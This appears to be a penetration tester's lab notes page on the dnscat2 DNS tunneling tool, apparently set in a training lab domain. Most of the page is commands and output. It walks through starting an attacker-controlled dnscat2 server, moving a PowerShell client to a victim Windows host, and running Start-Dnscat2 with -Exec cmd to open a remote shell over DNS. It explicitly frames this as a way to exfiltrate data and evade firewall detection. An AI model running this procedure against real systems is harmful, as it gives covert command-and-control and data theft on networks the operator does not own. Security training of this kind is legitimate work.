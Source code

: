 ```yaml
---
description: >-
  Dnscat2 is a tunneling tool that uses DNS protocol to send data between two
  hosts. It uses an encrypted C2 channel and sends data inside TXT records
  within the DNS protocol.
---
```


# Dnscat2

IMPORTANT: Here's how Dnscat2 works: Every Active Directory domain environment in a corporate network has it's own DNS server. When a local DNS server tries to reslove an external address (Dnscat2). Data is exfiltrated and sent over the network instead of a legitimate DNS request.

DNS can be an extremely stealthy approach to exfiltrating data while evading firewall detections.&#x20;

Firewall's usually strip HTTPS connections and sniff traffic, with this DNS we can evade those detection.



**Cloning dnscat2 and Setting Up the Server**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ git clone https://github.com/iagox86/dnscat2.git
</strong>
cd dnscat2/server/
sudo gem install bundler
bundle install
</code></pre>

**Starting the dnscat2 server**

```shell-session
attacker@kali$ sudo ruby dnscat2.rb --dns host=<attacker_ip>,port=53,domain=inlanefreight.local --no-cache
...
Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21
```

After running the server we get a secret key. We provide our Dnscat2 client on the victim host so that it can authenticate and encrypt the data to our external DNS server.



**Cloning dnscat2-powershell to the Attack Host**

Dnscat2 comes with a client, but we'll use a powershell client instead.

```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

_<mark style="color:red;">**NOTE:**</mark>_ Transfer this file to the target then proceed.

**Importing dnscat2.ps1**

```powershell-session
PS C:\victim> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host.

```powershell-session
PS C:\victim> Start-Dnscat2 -DNSserver <attacker_ip> -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

_<mark style="color:red;">**IMPORTANT:**</mark>_ We must use the secret -PreSharedSecret generated on the server to ensure our session is established and encrypted.\


**Listing dnscat2 Options**

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

**Interacting with the Established Session**

Like metasploit we can select sessions with:

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

\
